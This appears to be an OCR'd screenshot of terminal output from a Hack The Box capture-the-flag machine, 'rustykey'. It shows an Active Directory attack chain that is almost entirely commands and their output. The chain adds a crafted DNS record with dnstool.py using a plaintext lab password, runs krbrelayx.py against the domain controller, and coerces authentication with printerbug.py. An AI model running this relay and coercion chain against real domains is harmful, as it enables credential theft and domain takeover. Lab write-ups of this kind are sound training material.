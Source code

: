 ```sh
 - Type: 1 (A) (Serial: 88)
 - Address: 10.10.14.81
 ```

```sh
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.rustykey.htb" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[!] Record already exists and points to 10.10.14.81. Use --action modify to overwrite or --allow-multiple to override this
...
 sudo python krbrelayx.py -t dc.rustykey.htb
/home/tokugero/ctf/htb/season8/week7-rustkey/.venv/lib/python3.13/site-packages/impacket/examples/ntlmrelayx/attacks/__init__.py:20: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
...
 python printerbug.py -k -no-pass dc.rustykey.htb -dc-ip 10.129.174.88 it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.rustykey.htb
/home/tokugero/ctf/htb/season8/week7-rustkey/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attempting to trigger authentication via rprn RPC at dc.rustykey.htb
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked
```
